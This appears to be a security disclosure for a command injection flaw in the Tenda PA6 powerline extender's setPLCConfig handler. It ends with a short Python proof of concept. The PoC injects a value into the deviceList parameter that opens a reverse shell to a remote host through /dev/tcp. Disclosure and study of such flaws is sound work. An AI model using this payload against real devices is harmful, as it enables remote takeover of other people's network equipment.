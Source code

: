 # Tenda PA6(V1.0.1.21) Wi-Fi Powerline Extender has command injection vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tendacn.com/download/detail-3979.html

## Affected Version
V1.0.1.21
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `/goform/setPLCConfig` handler function of  `httpd`. The value of the `deviceList` parameter will be passed from `v37` to `v5`, finally to `v35`.
The value of the `v35` will be spliced ​​into the `homeplugctl remote_set....` and be excuted by `system` function, which allows an attacker to excute any command.

![code](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/goform/setPLCConfig"

payload = { 
    'deviceList': '";sh -i >& /dev/tcp/192.168.38.131/9001 0>&1#<FJT@BK>'
    }

requests.request("POST", url, data=payload)
```
![poc](./poc.png)
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.
